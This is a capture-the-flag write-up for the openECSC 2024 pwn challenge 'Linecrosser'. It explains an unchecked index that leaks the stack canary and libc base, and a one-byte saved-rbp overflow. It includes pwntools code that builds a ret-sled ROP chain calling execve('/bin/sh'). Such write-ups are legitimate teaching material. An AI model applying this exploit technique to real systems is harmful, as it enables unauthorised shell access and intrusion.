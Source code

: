 # openECSC 2024 - Round 1

## [pwn] Linecrosser (44 solves)

Check out this sick game with dark humour, will you be the first one to cross the line and go too far?

`nc linecrosser.challs.open.ecsc2024.it 38002`

The docker image for this challenge is `cybersecnatlab/challenge-jail@sha256:7bf77225063b039960f654307cf5d6f977f892ff548606357a2e8fe8067d0a88`.

Author: Fabio Zoratti <@orsobruno96>

## Overview
The challenge is presented as a standard compiled C source file that has the classical "menu" of pwn challenges.

The choices are not many
```
Welcome to Cards Against Hackers TM
Who will be the first to cross the line and `buttarla di fuori`?
1) Play
2) Create custom card
3) Show custom card
4) Exit
```

You can play an incomplete version of Card Against Humanity with a very small deck, and create your own cards. There is no win function in this binary, so it seems to be necessary to completely hijack the execution flow of the program and `execve(/bin/sh)`. The binary is compiled with some, but not all protections:
- no canary
- ASLR is active
- there are no rwx regions

Dynamical memory allocations is done twice with `malloc`, but you cannot double free if you never free, so a heap exploitation seems not viable.
However we can find at least two different vulnerabilities:
- a read primitive in `show_custom_card`. No bound check is performed at all on the index of the card, and this means that we can use it to leak data.
```c
  switch (choice) {
  case 1:
    printf("Answer: '%s'\n", answers[choice2].content);
    break;
  case 2:
    printf("Prompt (%llu completions): '%s'\n", prompts[choice2].number_of_completions, prompts[choice2].content);
    break;
```
we have to be careful, because it is really easy to dereference an invalid pointer and crash the program, using the '%s'.
- a tiny buffer overflow in `create_custom_card`. The overflow can overwrite only the LSB of `old_rbp` on the stack, but this may be sufficient for a _probabilistic_ rop chain. If we overwrite with a null byte the LSB, the old rbp will go up in the stack, and if we exit two functions, with `leave; ret;`, we may find ourselves on the buffer that we can control.

## Strategy
- leak libc_base and/or binary base with vulnerability number 1, reading data from the stack. Here in the writeup, also the canary is read, just in case.
  To simplify our exploit, we use the internal functions of pwntools to compute addresses. The libc binary always has ASLR active, so to compute the address of a symbol we can set the property `libc.address`, and the next time we access a symbol, like `libc.sym['printf']`, it will have the correct absolute address.

```python
from re import search
from pwn import log


def menu(io, choice: int):
    io.sendlineafter(b"4) Exit", f"{choice}".encode())

def show_card(io, num: int):
    menu(io, 3)
    io.sendlineafter(b"Answer (1)", b"2")
    io.sendlineafter(b"Which one?", f"{num}".encode())
    content = search(r"Prompt \(([0-9]+) completions\): '", io.recvuntil(b"'").decode()).groups(1)
    return int(content[0], 10)


def main():
    io = process(exe.path)
    END = 0x3f8
    CANARY_OFF = 41
    LIBC_OFF = 42
    canary = show_card(io, CANARY_OFF)
    log.success(f"{canary = :#018x}")
    address = show_card(io, LIBC_OFF)
    libc.address = address - (libc.sym['__libc_start_main'] + 0x80)
    log.success(f"{libc.address = :#018x}")

```

- prepare a rop chain with a "ret sled" on the stack, in order to maximize the probability of returning on a valid start for the rop chain
  A "ret" sled is simply a long rop chain with the gadget that performs only the "ret" instruction. This is useful because if we do not know exactly where we will start, this allows us to have a big memory region where we can land and perform the correct operations after some no-ops.

  In this case we do not need to set rdx, because it already contains a valid memory reference to some dummy environment. Finding a gadget with rdx is always a bit more painful than `rdi` or `rsi`.

```python
def create_prompt(io, numcomp: int, content: bytes):
    menu(io, 2)
    io.sendlineafter(b"Answer (1)", b"2")
    io.sendafter(b"prompt", content)
    io.sendlineafter(b"completions?", f"{numcomp}".encode())


def main():
    ....
    path = find_gadgets()
    RET = search_gadget("ret", "ret", path)
    POP_RDI = search_gadget("pop rdi; ret;", "pop rdi", path)
    POP_RSI = search_gadget("pop rsi; ret;", "pop rsi", path)
    chain = flat(
        POP_RDI,
        next(libc.search(b"/bin/sh\x00")),
        POP_RSI,
        0,
        libc.sym['execve']
    )
    filler = [RET for _ in range((END - len(chain)) // 8)]
    create_prompt(io, 0, flat({
       0: flat(
          *filler,
          chain,
       ),
       END: flat(
            canary,
        ),
    }))

```

- run the exploit until it works (should be a sufficiently large probability, > 10%). Experimentally I found approximately between 1/3 and 1/2.
